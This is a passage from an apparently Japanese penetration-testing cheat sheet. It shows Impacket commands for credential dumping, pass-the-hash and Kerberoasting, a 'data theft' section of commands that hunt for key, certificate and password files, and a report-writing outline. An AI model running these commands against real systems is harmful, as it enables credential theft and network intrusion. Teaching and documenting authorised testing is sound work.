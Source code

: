 **Impacket:**

```bash
# SecretsDump
secretsdump.py domain/user:password@target

# Pass-the-Hash
psexec.py -hashes :ntlmhash domain/user@target

# Kerberoasting
GetUserSPNs.py -request domain/user:password
```

### データ窃取

```bash
# 機密ファイル検索
find / -name "*.key" 2>/dev/null
find / -name "*.pem" 2>/dev/null
find / -name "*password*" 2>/dev/null

# Windows
dir /s /b *password*
findstr /si password *.txt *.xml *.ini
```

## レポート作成

### エグゼクティブサマリー

- リスク評価
- 主要な発見
- ビジネスインパクト
- 推奨事項の優先順位

### 技術的詳細

各脆弱性:
- タイトル
- CWE/CVSS
- 影響
- 再現手順
- 修復方法
- スクリーンショット

### Dradis Framework

レポート作成自動化ツール

```bash
# インポート
dradis-upload nmap.xml
dradis-upload burp.xml

# エクスポート
dradis-export --format html
```
